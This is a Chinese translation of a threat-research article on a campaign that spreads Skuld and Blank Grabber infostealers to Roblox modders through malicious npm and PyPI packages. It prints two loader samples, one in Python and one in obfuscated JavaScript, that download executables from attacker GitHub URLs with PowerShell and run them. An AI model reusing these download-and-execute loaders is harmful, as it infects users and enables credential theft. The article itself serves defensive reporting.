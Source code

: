 
<!--
title: 网络罪犯并非儿戏：Roblox模组中隐藏的恶意软件
cover: https://cdn.thenewstack.io/media/2025/01/fcc51bc2-gaming.jpg
-->

攻击者正在超越熟悉的伎俩，利用玩家最喜欢的工具的关联性来传播恶意软件。

> 译自 [Cybercriminals Are Not Playing Games: Malware Hiding in Roblox Mods](https://thenewstack.io/cybercriminals-are-not-playing-games-malware-hiding-in-roblox-mods/)，作者 Poppaea McDermott。

几十年来，投机的网络罪犯一直利用破解游戏或模组来向热情的游戏玩家传播恶意软件。随着威胁形势的发展，网络罪犯的策略也随之演变。

像Discord和Roblox这样的在线游戏平台拥有庞大而活跃的用户群，他们依赖开源库来创建机器人、插件、游戏作弊器和纹理包。[攻击者利用恶意npm和PyPI软件包攻击这些社区](https://thenewstack.io/what-developers-can-grok-from-the-latest-pypi-package-attack/)，为非法经济利益进行无情的活动。


攻击者超越了诸如[错字劫持](https://thenewstack.io/vulnerabilities-versus-intentionally-malicious-software-components/)（攻击者使用名称相似的软件包）之类的常用技巧，利用与游戏玩家最喜欢的工具的关联来分发恶意软件。他们越来越多地将软件包与相关的主题对齐，例如`robloxmatcher`或`solaraupgrade`，在社区内部传播它们。


## 社区作为恶意软件载体

攻击者利用Discord、YouTube和论坛等社区平台的信任性质，欺骗缺乏经验的开发者和模组制作者安装定制的恶意软件包。

用户之间的文件共享很常见，自动化安全工具通常会错过嵌入在软件包中的恶意脚本。无论如何，参与游戏破解的用户倾向于将杀毒软件检测视为误报。游戏作弊器的安装指南通常鼓励用户禁用杀毒软件和实时保护，从而破坏大多数防止感染的安全措施。


### Discord作为分发渠道

Discord频道和直接消息是进行[社会工程](https://thenewstack.io/how-supply-chain-attackers-maximize-their-blast-radius/)的沃土。恶意行为者会伪装成社区成员，推广最终旨在窃取凭据和创建僵尸网络的载荷工具。

例如，寻求Solara（Roblox Lua脚本执行器）帮助的用户可能会被引导下载恶意npm或PyPI软件包。此操作可能会在其主机上部署远程访问木马（RAT）。


专门讨论Roblox模组的Subreddit包含此网络钓鱼途径的证据，一些用户正确地质疑不良行为者提供的软件包安装命令的有效性。下面，r/robloxhackers子Reddit中的用户询问npm软件包`getsolara`和`fixsolara`的安全性，这两个软件包都是恶意的。

![](https://cdn.thenewstack.io/media/2025/01/187099eb-image1-1024x414.png)

![](https://cdn.thenewstack.io/media/2025/01/e137de0e-image2a-1024x398.png)

### YouTube教程

YouTube视频是恶意软件分发的常用载体。教程可能会通过恶意链接承诺“无限Robux”，机器人会留下置顶评论来说服其他人相信其真实性。

![YouTube视频（俄语翻译）引导Roblox模组制作者访问Google Drive托管的恶意软件。](https://cdn.thenewstack.io/media/2025/01/e57fbada-image3-1011x1024.png)

### GitHub问题和评论

与Roblox开发相关的GitHub存储库也是常见的目标。恶意行为者劫持合法项目的“问题”部分，在“错误修复”或“功能增强”中嵌入恶意链接。

![](https://cdn.thenewstack.io/media/2025/01/8ab0a4e1-image4-1024x344.png)

## RobloxPlayerLauncher – 持久的窃取信息活动

上面提到的Solara主题软件包是我们Stacklok公司自去年9月以来一直在追踪的一个持续的、跨语言的恶意活动的一部分。

### 针对Roblox用户的PyPI活动

该活动最初专门针对Roblox游戏“Da Hood”的玩家，这是该平台上最受欢迎的游戏之一。恶意软件包，例如`antibyfron`、`dahood`和`roinject`，通过模仿Roblox开发工具（包括Byfron，该框架的反作弊系统）的链接来伪造可信度。

[Imperva的一项调查](https://www.imperva.com/blog/trouble-in-da-hood-malicious-actors-use-infected-pypi-packages-to-target-roblox-cheaters/)揭示了一个YouTube频道和一个Discord服务器，它们宣传依赖于恶意软件包的作弊工具，这些软件包已被下载超过3000次。安装后，这些软件包将使用PowerShell下载并执行可疑的Windows可移植可执行文件（PE）。


由于代码和注释未经混淆处理，因此脚本的功能很清楚。恶意软件托管在一个攻击者控制的GitHub存储库中。以下是`antibyfron`软件包的`__init__.py`脚本中的Python代码；注释为原文。

```py
import subprocess
import os
 
# Define the output path for the downloaded file
output_file = os.path.join(os.getcwd(), "zwerve.exe")
 
# Step 1: PowerShell command to download the file using curl.exe
download_command = f'curl.exe -L https://github[.]com/holdthatcode/e/raw/main/zwerve.exe -o "{output_file}"'
 
# Run the PowerShell command to download the file
download_result = subprocess.run(["powershell", "-Command", download_command], capture_output=True, text=True)
 
# Check if download succeeded and the file exists
if download_result.returncode == 0 and os.path.exists(output_file):
       # Step 2: Run the downloaded executable silently using the full path
       execute_command = f'Start-Process "{output_file}" -NoNewWindow -Wait'
       execute_result = subprocess.run(["powershell", "-Command", execute_command], capture_output=True, text=True)
else:
       print("File download failed or file not found.")
```

### 转变策略——转向NPM

到 10 月中旬，此次活动背后的威胁参与者将重点转向 Node.js 生态系统，发布了 Roblox 主题的 npm 包，例如 `robloxmatcher`、`getsolara.dev`、`upgrade-roblox`、`solaraupdater`、`robloxbootstrapper` 和 `xeno.dll`。

所有这些包的功能都相同——每个包都包含一个混淆的 JavaScript 文件，用于通过 PowerShell 加载其他 Windows 二进制文件。与 PyPI 样本的一个区别在于，它交付了两个或三个有效负载，而不是一个。


```javascript
const urls = ["https://github[.]com/zvydev/code/raw/main/RobloxPlayerLauncher[.]exe", "https://github[.]com/zvydev/code/raw/main/cmd[.]exe"];
const outputFiles = [path.join(__dirname, "RobloxPlayerLauncher[.]exe"), path.join(__dirname, "cmd[.]exe")];
function downloadAndRun(_0x3b7236, _0x102edc) {
const _0x37a2f3 = "powershell -Command \"Invoke-WebRequest -Uri '" + _0x3b7236 + "' -OutFile '" + _0x102edc + "'\"";
const _0x421bc1 = "powershell -Command \"Start-Process '" + _0x102edc + "'\"";
exec(_0x37a2f3, (_0x3a523a, _0x3d32f7, _0x492c55) =&gt; {
if (_0x3a523a) {
console.error("Download error: " + _0x3a523a.message);
return;
}
[...]
});
}
urls.forEach((_0x2601bf, _0x4d4889) =&gt; {
downloadAndRun(_0x2601bf, outputFiles[_0x4d4889]);
});
```

### Skuld 和 Blank Grabber 窃取程序

对下载的可执行文件的分析表明，有效负载 `RobloxPlayerLauncher.exe` 是 [Skuld](https://www.acronis.com/en-eu/cyber-protection-center/posts/tmpn-skuld-stealer-the-dark-side-of-open-source/) 的一个变体，这是一种用 Golang 编写的规避性信息窃取程序，而 `cmd.exe` 是 [Blank Grabber](https://www.cyfirma.com/research/blank-grabber-returns-with-high-evasiveness/)，一个基于 Python 的信息窃取程序。两者都源自开源恶意软件项目，具有重叠的功能，例如通过 Discord Webhooks 或 Telegram 机器人收集凭据、加密货币钱包、浏览器历史记录和游戏平台会话。

尽管在整个活动中文件名和托管服务有所不同，但核心信息窃取程序菌株保持一致。

到 11 月，运营者已经放弃了 GitHub，转而使用 Replit 和 Cloudfare Tunnel 托管他们的工具，同时整合了像 QuasarRAT 这样的新有效负载，从而在受害者机器上启用持久的后门。最近的迭代简化了恶意软件的交付，只专注于 Skuld 窃取程序。

## 总结

一个针对 Roblox 用户的持续活动突显了网络犯罪分子如何利用活跃的游戏社区来扩大其攻击范围。这种策略绝非独一无二——类似的活动已经部署了 [LunaGrabber](https://www.reversinglabs.com/blog/fake-roblox-api-packages-luna-grabber-npm)、[QuasarRAT](https://stacklok.com/blog/destroyloneliness-npm-starjacking-attack-on-roblox-nodejs-library-delivers-quasarrat) 甚至 [勒索软件](https://www.sonatype.com/blog/fake-npm-roblox-api-package-installs-ransomware-spooky-surprise)。

为了应对这种持续存在的威胁，修改者必须严格验证软件包的真实性，警惕社会工程策略，并在与不受信任的来源的建议互动时谨慎行事。像 [CodeGate](https://codegate.ai/)（一个 AI 编码助手代理）这样的工具可以帮助开发人员识别和避免不安全的依赖项。
